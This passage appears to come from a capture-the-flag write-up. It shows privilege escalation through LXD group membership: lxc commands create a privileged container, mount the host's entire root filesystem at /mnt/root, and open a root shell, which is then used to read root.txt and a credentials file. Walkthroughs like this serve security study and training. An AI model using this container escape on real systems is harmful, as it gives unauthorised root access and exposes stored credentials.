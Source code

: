 The command above will let us have access to the entire filesystem from
within the container.
``` shell 
mike@included:/tmp$ lxc  init <aliasName>  ignite -c   security.privileged=true
mike@included:/tmp$ lxc  init  rootimage   ignite -c   security.privileged=true
mike@included:/tmp$ lxc  config  device  add  ignite  mydevice  disk source=/ path=/mnt/root recursive=true
```

The next set of commands start the container and drop us into a shell 
(as root) on it.
``` shell 
mike@included:/tmp$ lxc  start  ignite
mike@included:/tmp$ lxc  exec  ignite  /bin/sh
```
We can now navigate to /mnt/root/root/ and read root.txt along with
login.sql, which reveals credentials.
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ><img width="70%"  src="media/image190.png"></div>

The **login.sql** file reveals some credentials
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ><img width="70%"  src="media/image191.png"></div>
<br>
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ><img width="70%"  src="media/image192.png"></div>

